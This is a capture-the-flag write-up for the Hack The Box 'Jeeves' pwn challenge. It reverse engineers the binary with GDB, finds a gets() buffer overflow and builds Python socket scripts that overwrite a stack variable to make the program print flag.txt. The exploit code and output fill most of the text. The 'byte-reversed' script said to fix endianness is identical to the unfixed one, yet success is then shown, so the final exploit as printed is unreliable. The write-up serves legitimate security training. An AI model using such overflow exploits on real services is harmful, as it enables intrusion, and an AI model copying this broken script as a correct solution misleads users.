



# Reverse Engineering the Binary
Before reverse engineering the program, let's take a look at what the program does normally.

```default
kali@kali:~/Documents/CTF/HTB/Challenges/Pwn/Jeeves$ ./jeeves
Hello, good sir!
May I have your name? asdf
Hello asdf, hope you have a good day!
kali@kali:~/Documents/CTF/HTB/Challenges/Pwn/Jeeves$ 
```

The program prints a message asking for the user's name and then accepts input from the user. Once the input has been entered, another message is printed containing the user supplied input and the program terminates. Now that we know what it does normally, we have some context for when we disassembly the binary. 

## Disassembling the Binary Using GDB
```default
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
   0x00000000000011e9 <+0>:     endbr64 
   0x00000000000011ed <+4>:     push   rbp
   0x00000000000011ee <+5>:     mov    rbp,rsp
   0x00000000000011f1 <+8>:     sub    rsp,0x40
   0x00000000000011f5 <+12>:    mov    DWORD PTR [rbp-0x4],0xdeadc0d3
   0x00000000000011fc <+19>:    lea    rdi,[rip+0xe05]        # 0x2008
   0x0000000000001203 <+26>:    mov    eax,0x0
   0x0000000000001208 <+31>:    call   0x10a0 <printf@plt>
   0x000000000000120d <+36>:    lea    rax,[rbp-0x40]
   0x0000000000001211 <+40>:    mov    rdi,rax
   0x0000000000001214 <+43>:    mov    eax,0x0
   0x0000000000001219 <+48>:    call   0x10d0 <gets@plt>
   0x000000000000121e <+53>:    lea    rax,[rbp-0x40]
   0x0000000000001222 <+57>:    mov    rsi,rax
   0x0000000000001225 <+60>:    lea    rdi,[rip+0xe04]        # 0x2030
   0x000000000000122c <+67>:    mov    eax,0x0
   0x0000000000001231 <+72>:    call   0x10a0 <printf@plt>
   0x0000000000001236 <+77>:    cmp    DWORD PTR [rbp-0x4],0x1337bab3
   0x000000000000123d <+84>:    jne    0x12a8 <main+191>
   0x000000000000123f <+86>:    mov    edi,0x100
   0x0000000000001244 <+91>:    call   0x10e0 <malloc@plt>
   0x0000000000001249 <+96>:    mov    QWORD PTR [rbp-0x10],rax
   0x000000000000124d <+100>:   mov    esi,0x0
   0x0000000000001252 <+105>:   lea    rdi,[rip+0xdfc]        # 0x2055
   0x0000000000001259 <+112>:   mov    eax,0x0
   0x000000000000125e <+117>:   call   0x10f0 <open@plt>
   0x0000000000001263 <+122>:   mov    DWORD PTR [rbp-0x14],eax
   0x0000000000001266 <+125>:   mov    rcx,QWORD PTR [rbp-0x10]
   0x000000000000126a <+129>:   mov    eax,DWORD PTR [rbp-0x14]
   0x000000000000126d <+132>:   mov    edx,0x100
   0x0000000000001272 <+137>:   mov    rsi,rcx
   0x0000000000001275 <+140>:   mov    edi,eax
   0x0000000000001277 <+142>:   mov    eax,0x0
   0x000000000000127c <+147>:   call   0x10c0 <read@plt>
   0x0000000000001281 <+152>:   mov    rax,QWORD PTR [rbp-0x10]
   0x0000000000001285 <+156>:   mov    rsi,rax
   0x0000000000001288 <+159>:   lea    rdi,[rip+0xdd1]        # 0x2060
   0x000000000000128f <+166>:   mov    eax,0x0
   0x0000000000001294 <+171>:   call   0x10a0 <printf@plt>
   0x0000000000001299 <+176>:   mov    eax,DWORD PTR [rbp-0x14]
   0x000000000000129c <+179>:   mov    edi,eax
   0x000000000000129e <+181>:   mov    eax,0x0
   0x00000000000012a3 <+186>:   call   0x10b0 <close@plt>
   0x00000000000012a8 <+191>:   mov    eax,0x0
   0x00000000000012ad <+196>:   leave  
   0x00000000000012ae <+197>:   ret    
End of assembler dump.
(gdb) 
```

With the disassembled binary, we can clearly see where the different events that occured when running the program are found in the code. At line `<+31>` we can see that a function call is made with the name `printf` which is a function that is part of the C stdio library that writes a provided string to standard output. Since this is the first occurence of `printf`, we can assume that it prints the message that asks the user for their name. Following the call to `printf`, we have another call instruction on line `<+48>` to the function `gets` which is another function from the stdio library that gets gets a string from standard input. We can assume that this is where the user enters their name. Following this call instruction, we have another call to `printf` on line `<+72>`. Again, we can assume that this is the function call that reflects the user's input before the program is terminated. After the second call to `printf`, we see a compare instruction on line `<+77>` follower by a jump not equal instruction on line `<+84>`. The compare instruction is checking if the value that is four memory addresses behind the address the register base pointer (RBP) is pointing to is equal to `x1337bab3`. The following jump not equal instruction will jump to the instruction at `0x12a8` if the previous compare instruction detemined the two values were not equal. The instruction the program is jumping to is the the third last instruction in the disassembled main function. At this point, the program is simply doing cleanup and then terminates. Looking at the code that would execute if the jump does not occur, that is if the value at `rbp-0x04` is equal to `x1337bab3`, we see three call instructions of note. The first is a call to the `open` function on line `<+117>`. This is a system call that is used to open a file. Following the `open` system call there is a call to the function `read` on line `<+147>`. This is another system call that reads the the contents of a file that has been previously opened. The last call instruction of note, is the call to `printf`. With the previous two instructions, we have reason to believe that this call to `printf` outputs the contents of the file that was previously read. That being said, this is only of use to us if the file being read is worth reading. In order to attempt to identify the file that is being read, we will use the tool `strings` to extract any readable text from the compiled binary. 

## Running `strings` Against the Compiled Binary

```default
kali@kali:~/Documents/CTF/HTB/Challenges/Pwn/Jeeves$ strings jeeves                                                  
/lib64/ld-linux-x86-64.so.2                         
libc.so.6
gets
printf
read
malloc
close

...

Hello, good sir!
May I have your name?
Hello %s, hope you have a good day!
flag.txt
Pleased to make your acquaintance. Here's a small gift: %s
:*3$"
GCC: (Ubuntu 9.2.1-9ubuntu2) 9.2.1 20191008
crtstuff.c

...

.eh_frame                                                 
.init_array                                               
.fini_array                                               
.dynamic                                                  
.data                                                     
.bss                                                      
.comment                                                  
kali@kali:~/Documents/CTF/HTB/Challenges/Pwn/Jeeves$ 
```

The output from `strings` gives us two very useful pieces of information. The first is that in the compiled binary, we have a string containing `flag.txt` which is very clearly a file. This is most likely the only candidate to be read by the gets function as all the other strings resembling the name of a file are C files for various libraries. The second is the string immediately following `flag.txt`. This string is likely the output of the call to `printf` that occurs after the call to `read`. The reason why we can assume this is due to the `%s` found at the end of the string. `%s` is used in `printf` as a marker to indicate where to insert a string. Therefore, it is possible that the `open` and `read` system calls get the contents of the file `flag.txt` and then it is outputed in the call to `printf`. 

# Running the Program Through EDB

While we may have a hypothesis regarding the conditions required to output the flag, we still do not know how to manipulate the program such that those conditions occur. In order to further understand how we can manipulate the program into doing this, we will be running the program through Evan's Debugger. In order to help automate the exploitation process, we will be writing a Python script that will send the payload to the vulnerable binary hosted by Hack the Box. It is not a good idea to test our payloads against the live target due to the risk of it crashing. As a result, we need to setup a similar setup on our attacker machine in order to have accurate testing. To do this, we will pipe the output of a Netcat listener into the binary. Additionally, we will be disabling ASLR for the binary, just to make things a little simpler. 
```default
kali@kali:~/Documents/CTF/HTB/Challenges/Pwn/Jeeves$ nc -nvlp 31183 | setarch `uname -m` -R ./jeeves
listening on [any] 31183 ...
Hello, good sir!

```

Next we will attach the debugger to the binary.




Now that it's attached, let's find the main function and set a breakpoint on the jump not equal instruction. 






## Setting up the Python Script

Now that we have EBD setup, let's start writing the Python script. 

```python
import socket
host = '127.0.0.1'
port = 31183

buffer = ''

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))
s.sendall(buffer)
s.shutdown(socket.SHUT_WR)
print(s.recv(1024))
s.close()
```

# Fuzzing the Program

Let's start by sending a buffer consisting of 200 A's and see if we can overflow a buffer. 

```python
import socket
host = '127.0.0.1'
port = 31183

buffer = b'A'*200

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))
s.sendall(buffer)
s.shutdown(socket.SHUT_WR)
print(s.recv(1024))
s.close()
```

After running the script and pausing at the breakpoint we previously set, we can see the address RBP is pointing to has been overflowed with A's. 

{ width=250px }


{ width=250px }

More importantly, we can see that the memory addresses before RBP have been overflowed as well. This means that we can overwrite `rbp-0x04` as we saw in the `cmp` instruction before the `jne` instruction in the disassembled binary. 

## Finding the Offset
In order to overwrite the data found at `rbp-0x04`, we will need to first determine how many A's we need to include before we reach that particular memory address. This number of A's is called the offset. To find the offset, we will be using `msf-pattern_create`. This will create a non-repeating pattern we can use in our buffer. After sending the buffer, we can read the contents at the desired memory address. Then we can submit that to `msf-pattern_offset` and get back the offset. 

```default
kali@kali:~/Documents/CTF/HTB/Challenges/Pwn/Jeeves$ msf-pattern_create -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
kali@kali:~/Documents/CTF/HTB/Challenges/Pwn/Jeeves$ 
```

```python
import socket
host = '127.0.0.1'
port = 31183

buffer = b'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))
s.sendall(buffer)
s.shutdown(socket.SHUT_WR)
print(s.recv(1024))
s.close()
```

Now that we have modified our script, we will attach EDB to the binary the same way as we did before and set a breakpoint at the `jne` instruction. Once EDB is setup, we will run the Python script. 

{ width=250px }


{ width=250px }

To keep things simple, we will be taking the contents of the memory address pointed to by `rbp` and not `rbp-0x04`. If we look at the registers panel, we can see the content of `rbp` is `0x00007fffffffded0`. Looking at the memory contents at that address in the stack panel, we see it contains `0x3363413263413163`. With this value, we can submit it to `msf-pattern_offset` and get the value of the offset. 

```default
kali@kali:~/Documents/CTF/HTB/Challenges/Pwn/Jeeves$ msf-pattern_offset -l 200 -q 3363413263413163
[*] Exact match at offset 64
kali@kali:~/Documents/CTF/HTB/Challenges/Pwn/Jeeves$ 
```

With that, we now have the offset for `rbp`. That being said, we needed the offset for `rbp-0x04`, so our final offset is 60. 

# Writing the Final Exploit
All that is left now is to write the value found in the `cmp` instruction right after our offset. 

```python
import socket
host = '127.0.0.1'
port = 31183

padding = b'A'*60

cmp = b'\x13\x37\xba\xb3'

buffer = padding + cmp

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))
s.sendall(buffer)
s.shutdown(socket.SHUT_WR)
print(s.recv(1024))
s.close()
```

Next we'll run the script and check that the memory has been properly written in EDB. 

{ width=250px}

Looking at the contents of the stack, our offset is correct, but the order of the bytes is backwards. This is due to the endianness of the system. The solution to this program is to simply invert the order of the bytes in our payload. 

```python
import socket
host = '127.0.0.1'
port = 31183

padding = b'A'*60

cmp = b'\x13\x37\xba\xb3'

buffer = padding + cmp

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))
s.sendall(buffer)
s.shutdown(socket.SHUT_WR)
print(s.recv(1024))
s.close()
```

Now when we run the script we get a different output. 

```default
kali@kali:~/Documents/CTF/HTB/Challenges/Pwn/Jeeves$ nc -nvlp 31183 | setarch `uname -m` -R ./jeeves
listening on [any] 31183 ...
Hello, good sir!
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 35870
May I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA7, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: 
kali@kali:~/Documents/CTF/HTB/Challenges/Pwn/Jeeves$ 
```

We can also confirm that the payload was sent correctly by looking at the debugger.

{ width=250px}

All that is left is to change the host and port variable to the pair provided by Hack the Box and we will get the flag. 

```default
kali@kali:~/Documents/CTF/HTB/Challenges/Pwn/Jeeves$ python exploit.py
Hello, good sir!
May I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA7, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: HTB{w3lc0me_t0_lAnd_0f_pwn_&_pa1n!}


kali@kali:~/Documents/CTF/HTB/Challenges/Pwn/Jeeves$ 
```